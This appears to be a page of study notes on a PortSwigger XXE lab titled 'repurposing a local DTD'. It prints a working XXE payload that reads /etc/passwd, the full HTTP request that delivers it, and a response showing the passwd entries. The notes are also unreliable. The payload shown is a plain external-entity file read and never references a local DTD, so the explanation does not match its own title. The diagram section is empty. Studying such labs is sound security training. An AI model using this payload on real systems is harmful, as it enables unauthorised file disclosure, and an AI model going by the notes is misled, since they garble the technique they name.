

## Repurposing a Local DTD

### What is Repurposing a Local DTD?

Repurposing a local DTD involves using an existing DTD to inject malicious content. By referencing an existing DTD, an attacker can bypass validation mechanisms and execute unauthorized actions.

### Why Repurpose a Local DTD?

Repurposing a local DTD allows an attacker to leverage existing infrastructure without needing to create new DTDs. This reduces the complexity of the attack and increases the likelihood of success.

### How to Repurpose a Local DTD

To repurpose a local DTD, an attacker crafts XML input that references the DTD and includes malicious content. The following example demonstrates how to repurpose a DTD to read the `/etc/passwd` file:

#### Malicious XML Input

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

### Full HTTP Request and Response

#### HTTP Request

```http
POST /vulnerable-endpoint HTTP/1.1
Host: example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: text/html

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
```

### Mermaid Diagram: Attack Chain



---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/10-Lab 9 Exploiting XXE to retrieve data by repurposing a local DTD/11-Practice Labs|Practice Labs]] | [[Web Security (PortSwigger)/08-XXE Injection/10-Lab 9 Exploiting XXE to retrieve data by repurposing a local DTD/00-Overview|Overview]] | [[13-Testing for XXE Injection|Testing for XXE Injection]]
